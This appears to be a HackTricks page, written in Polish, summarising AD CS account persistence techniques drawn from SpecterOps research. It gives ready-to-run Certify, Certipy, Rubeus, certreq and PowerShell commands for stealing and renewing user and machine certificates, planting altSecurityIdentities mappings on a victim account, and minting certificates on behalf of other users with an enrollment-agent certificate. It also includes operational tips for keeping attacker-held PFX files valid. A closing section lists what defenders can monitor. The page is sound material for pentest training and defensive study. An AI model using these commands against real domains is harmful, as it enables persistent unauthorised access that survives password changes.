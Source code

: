 # AD CS Account Persistence

{{#include ../../../banners/hacktricks-training.md}}

**To jest małe podsumowanie rozdziałów dotyczących utrzymywania konta z niesamowitych badań z [https://specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)**

## Zrozumienie kradzieży poświadczeń aktywnego użytkownika za pomocą certyfikatów – PERSIST1

W scenariuszu, w którym certyfikat umożliwiający uwierzytelnianie w domenie może być żądany przez użytkownika, atakujący ma możliwość zażądania i kradzieży tego certyfikatu, aby utrzymać trwałość w sieci. Domyślnie szablon `User` w Active Directory pozwala na takie żądania, chociaż czasami może być wyłączony.

Używając [Certify](https://github.com/GhostPack/Certify) lub [Certipy](https://github.com/ly4k/Certipy), możesz wyszukiwać włączone szablony, które pozwalają na uwierzytelnianie klienta, a następnie zażądać jednego:
```bash
# Enumerate client-auth capable templates
Certify.exe find /clientauth

# Request a user cert from an Enterprise CA (current user context)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User

# Using Certipy (RPC/DCOM/WebEnrollment supported). Saves a PFX by default
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' -template 'User' -out user.pfx
```
Moc certyfikatu polega na jego zdolności do uwierzytelniania jako użytkownik, do którego należy, niezależnie od zmian hasła, pod warunkiem, że certyfikat pozostaje ważny.

Możesz przekonwertować PEM na PFX i użyć go do uzyskania TGT:
```bash
# Convert PEM returned by Certify to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Use certificate for PKINIT and inject the TGT
Rubeus.exe asktgt /user:john /certificate:C:\Temp\cert.pfx /password:CertPass! /ptt

# Or with Certipy
certipy auth -pfx user.pfx -dc-ip 10.0.0.10
```
> Uwaga: W połączeniu z innymi technikami (patrz sekcje THEFT), uwierzytelnianie oparte na certyfikatach umożliwia trwały dostęp bez dotykania LSASS, a nawet z kontekstów niepodwyższonych.

## Uzyskiwanie trwałości maszyny za pomocą certyfikatów - PERSIST2

Jeśli atakujący ma podwyższone uprawnienia na hoście, może zarejestrować konto maszyny skompromitowanego systemu dla certyfikatu, używając domyślnego szablonu `Machine`. Uwierzytelnienie jako maszyna umożliwia S4U2Self dla lokalnych usług i może zapewnić trwałą trwałość hosta:
```bash
# Request a machine certificate as SYSTEM
Certify.exe request /ca:dc.theshire.local/theshire-DC-CA /template:Machine /machine

# Authenticate as the machine using the issued PFX
Rubeus.exe asktgt /user:HOSTNAME$ /certificate:C:\Temp\host.pfx /password:Passw0rd! /ptt
```
## Extending Persistence Through Certificate Renewal - PERSIST3

Wykorzystanie okresów ważności i odnowienia szablonów certyfikatów pozwala atakującemu na utrzymanie długoterminowego dostępu. Jeśli posiadasz wcześniej wydany certyfikat i jego klucz prywatny, możesz go odnowić przed wygaśnięciem, aby uzyskać nowy, długoterminowy identyfikator bez pozostawiania dodatkowych artefaktów żądania związanych z oryginalnym podmiotem.
```bash
# Renewal with Certipy (works with RPC/DCOM/WebEnrollment)
# Provide the existing PFX and target the same CA/template when possible
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
-template 'User' -pfx user_old.pfx -renew -out user_renewed.pfx

# Native Windows renewal with certreq
# (use the serial/thumbprint of the cert to renew; reusekeys preserves the keypair)
certreq -enroll -user -cert <SerialOrID> renew [reusekeys]
```
> Wskazówka operacyjna: Śledź czas trwania plików PFX posiadanych przez atakującego i odnawiaj je wcześnie. Odnowienie może również spowodować, że zaktualizowane certyfikaty będą zawierać nowoczesne rozszerzenie mapowania SID, co pozwoli na ich użycie zgodnie z surowszymi zasadami mapowania DC (patrz następna sekcja).

## Sadzenie jawnych mapowań certyfikatów (altSecurityIdentities) – PERSIST4

Jeśli możesz zapisać do atrybutu `altSecurityIdentities` docelowego konta, możesz jawnie powiązać certyfikat kontrolowany przez atakującego z tym kontem. To utrzymuje się po zmianach hasła i, przy użyciu silnych formatów mapowania, pozostaje funkcjonalne pod nowoczesnym egzekwowaniem DC.

Ogólny przebieg:

1. Uzyskaj lub wydaj certyfikat klienta, który kontrolujesz (np. zarejestruj szablon `User` jako siebie).
2. Wyodrębnij silny identyfikator z certyfikatu (Issuer+Serial, SKI lub SHA1-PublicKey).
3. Dodaj jawne mapowanie na `altSecurityIdentities` głównego użytkownika ofiary, używając tego identyfikatora.
4. Uwierzytelnij się za pomocą swojego certyfikatu; DC mapuje go do ofiary za pomocą jawnego mapowania.

Przykład (PowerShell) używając silnego mapowania Issuer+Serial:
```powershell
# Example values - reverse the issuer DN and serial as required by AD mapping format
$Issuer  = 'DC=corp,DC=local,CN=CORP-DC-CA'
$SerialR = '1200000000AC11000000002B' # reversed byte order of the serial
$Map     = "X509:<I>$Issuer<SR>$SerialR"

# Add mapping to victim. Requires rights to write altSecurityIdentities on the object
Set-ADUser -Identity 'victim' -Add @{altSecurityIdentities=$Map}
```
Następnie uwierzytelnij się za pomocą swojego PFX. Certipy uzyska TGT bezpośrednio:
```bash
certipy auth -pfx attacker_user.pfx -dc-ip 10.0.0.10
```
Notatki
- Używaj tylko silnych typów mapowania: X509IssuerSerialNumber, X509SKI lub X509SHA1PublicKey. Słabe formaty (Subject/Issuer, Subject-only, RFC822 email) są przestarzałe i mogą być blokowane przez politykę DC.
- Łańcuch certyfikatów musi prowadzić do zaufanego korzenia przez DC. CAs przedsiębiorstw w NTAuth są zazwyczaj zaufane; niektóre środowiska również ufają publicznym CAs.

Aby uzyskać więcej informacji na temat słabych jawnych mapowań i ścieżek ataku, zobacz:

{{#ref}}
domain-escalation.md
{{#endref}}

## Agent rejestracji jako trwałość – PERSIST5

Jeśli uzyskasz ważny certyfikat Agenta Żądania Certyfikatu/Agenta Rejestracji, możesz w dowolnym momencie tworzyć nowe certyfikaty umożliwiające logowanie w imieniu użytkowników i przechowywać agenta PFX offline jako token trwałości. Workflow nadużycia:
```bash
# Request an Enrollment Agent cert (requires template rights)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:"Certificate Request Agent"

# Mint a user cert on behalf of another principal using the agent PFX
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User \
/onbehalfof:CORP\\victim /enrollcert:C:\Temp\agent.pfx /enrollcertpw:AgentPfxPass

# Or with Certipy
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
-template 'User' -on-behalf-of 'CORP/victim' -pfx agent.pfx -out victim_onbo.pfx
```
Unieważnienie certyfikatu agenta lub uprawnień szablonu jest wymagane do usunięcia tej persystencji.

## 2025 Silne egzekwowanie mapowania certyfikatów: wpływ na persystencję

Microsoft KB5014754 wprowadził silne egzekwowanie mapowania certyfikatów na kontrolerach domeny. Od 11 lutego 2025 r. kontrolery domeny domyślnie stosują pełne egzekwowanie, odrzucając słabe/niejednoznaczne mapowania. Praktyczne implikacje:

- Certyfikaty sprzed 2022 roku, które nie mają rozszerzenia mapowania SID, mogą nie przejść mapowania domyślnego, gdy kontrolery domeny są w pełnym egzekwowaniu. Atakujący mogą utrzymać dostęp, odnawiając certyfikaty przez AD CS (aby uzyskać rozszerzenie SID) lub sadząc silne jawne mapowanie w `altSecurityIdentities` (PERSIST4).
- Jawne mapowania używające silnych formatów (Issuer+Serial, SKI, SHA1-PublicKey) nadal działają. Słabe formaty (Issuer/Subject, Subject-only, RFC822) mogą być blokowane i powinny być unikać dla persystencji.

Administratorzy powinni monitorować i ostrzegać o:
- Zmianach w `altSecurityIdentities` oraz wydaniach/odnowieniach certyfikatów agenta rejestracji i użytkownika.
- Dziennikach wydania CA dla żądań w imieniu oraz nietypowych wzorcach odnawiania.

## Odniesienia

- Microsoft. KB5014754: Zmiany w uwierzytelnianiu opartym na certyfikatach na kontrolerach domeny Windows (harmonogram egzekwowania i silne mapowania).
https://support.microsoft.com/en-au/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
- Certipy Wiki – Odniesienie do poleceń (`req -renew`, `auth`, `shadow`).
https://github.com/ly4k/Certipy/wiki/08-%E2%80%90-Command-Reference

{{#include ../../../banners/hacktricks-training.md}}

